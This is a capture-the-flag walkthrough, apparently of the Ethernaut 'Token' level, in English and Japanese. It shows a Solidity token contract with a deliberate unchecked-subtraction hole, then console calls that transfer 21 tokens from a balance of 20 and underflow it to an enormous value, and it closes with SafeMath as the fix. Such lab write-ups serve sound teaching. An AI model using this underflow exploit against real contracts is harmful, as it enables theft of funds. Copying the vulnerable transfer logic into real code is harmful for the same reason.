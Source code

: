 5.Token 

The goal of this level is for you to hack the basic token contract below.

You are given 20 tokens to start with and you will beat the level if you somehow manage to get your hands on any additional tokens. Preferably a very large amount of tokens.

  Things that might help:

What is an odometer?


// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Token {

  mapping(address => uint) balances; //It's have no negative here, we're dealing with mapping to unsigned integer
  uint public totalSupply;

  constructor(uint _initialSupply) public {
    balances[msg.sender] = totalSupply = _initialSupply;
  }

  function transfer(address _to, uint _value) public returns (bool) {
    require(balances[msg.sender] - _value >= 0); //this is know vulnerability or problem in solidity contract 
    //this is always going to yield true,  
    balances[msg.sender] -= _value; //msg.sender = player(me) this is gonna be yield token 20 
    //provide the current amount of tokens in this balances in mapping that th sender of this transaction has 
    
    balances[_to] += _value;
    return true;
  }

  function balanceOf(address _owner) public view returns (uint balance) {
    return balances[_owner];
  }
}

>contract.abi //各functionの確認
(4) [{…}, {…}, {…}, {…}]
0:
constant: undefined
inputs: [{…}]
payable: undefined
stateMutability: "nonpayable"
type: "constructor"
[[Prototype]]: Object
1: {inputs: Array(1), name: 'balanceOf', outputs: Array(1), stateMutability: 'view', type: 'function', …}
2: {inputs: Array(0), name: 'totalSupply', outputs: Array(1), stateMutability: 'view', type: 'function', …}
3: {inputs: Array(2), name: 'transfer', outputs: Array(1), stateMutability: 'nonpayable', type: 'function', …}
length: 4
[[Prototype]]: Array(0)


>await contract.balanceOf(player)

o {negative: 0, words: Array(2), length: 1, red: null}
length: 1
negative: 0
red: null
words: Array(2)
0: 20 //Token保有数
length: 2
[[Prototype]]: Array(0)
[[Prototype]]: Object

>contract.transfer('0x3E6fA38c7A61E80090A21a02a036f26fA28EC69a', 20 + 1 ） //address _to , uint _value


//now 20 is going to be decremented by the value that we're trying to send which is 21.
//as you know arithmetic underflow is going to yield a result that's greater than what you expected 
//知らん人にreinkebyのtokenを２１送りつけて自分のbalaneをminusにする
contract.transfer('0x1e8f83b55e1fa534a885a270ef6ed48f26778278', 20 + 1)
Promise {<pending>, _events: o, emit: ƒ, on: ƒ, …}
e4e9b69aea3571538dca60595571493ed3b7d30d.js:1 ⛏️ Sent transaction ⛏ https://rinkeby.etherscan.io/tx/0xb9fa3072991a5b1e2bd1e9232c49469170be9ff7678b9fe942291eee9ca63142
e4e9b69aea3571538dca60595571493ed3b7d30d.js:1 ⛏️ Mined transaction ⛏ https://rinkeby.etherscan.io/tx/0xb9fa3072991a5b1e2bd1e9232c49469170be9ff7678b9fe942291eee9ca63142


//Tokenがzeroになったことを確認
>await contract.balanceOf(player)

o {negative: 0, words: Array(11), length: 10, red: null}
length: 10
negative: 0
red: null
words: Array(11)
0: 67108863
1: 67108863
2: 67108863
3: 67108863
4: 67108863
5: 67108863
6: 67108863
7: 67108863
8: 67108863
9: 4194303
length: 11
[[Prototype]]: Array(0)
[[Prototype]]: Object

Overflows are very common in solidity and must be checked for with control statements such as:

if(a + c > a) {
  a = a + c;
}
An easier alternative is to use OpenZeppelin's SafeMath library that automatically checks for overflows in all the mathematical operators. The resulting code looks like this:

a = a.add(c);
If there is an overflow, the code will revert.













